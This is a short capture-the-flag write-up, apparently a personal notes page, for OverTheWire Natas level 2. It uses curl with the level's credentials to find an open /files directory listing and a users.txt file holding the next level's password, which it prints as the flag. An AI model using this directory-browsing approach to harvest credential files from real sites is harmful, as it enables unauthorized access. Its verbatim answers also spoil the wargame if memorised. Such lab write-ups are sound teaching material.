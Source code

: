 ```yaml
---
layout: default
level: 2
name_file: level
---
```


{% include level-section.html %}

# soal
Username: natas2 \
URL:      http://natas2.natas.labs.overthewire.org

# solve
- login with cred natas2:TguMNxKo1DSa1tujBLuZJnDUlCcUAPlI
- inspect the web, view-source:<url>, or curl
    ```bash
    curl http://natas2.natas.labs.overthewire.org -u natas2:TguMNxKo1DSa1tujBLuZJnDUlCcUAPlI
    # <div id="content">
    # There is nothing on this page
    # <img src="files/pixel.png">
    # </div>
    ```
- in this, have the directory listing /files
    ![alt text](docs/images/image-1.png)
    ![alt text](docs/images/image-2.png)
- if ur curl
    ```bash
    curl http://natas2.natas.labs.overthewire.org/files/users.txt -u natas2:TguMNxKo1DSa1tujBLuZJnDUlCcUAPlI
    # username:password
    # alice:BYNdCesZqW
    # bob:jw2ueICLvT
    # charlie:G5vCxkVV3m
    # natas3:3gqisGdR0pjm6tpkDKdIWO2hSvchLeYH
    # eve:zo4mJWyNj2
    # mallory:9urtcpzBmH
    ```

# flag
3gqisGdR0pjm6tpkDKdIWO2hSvchLeYH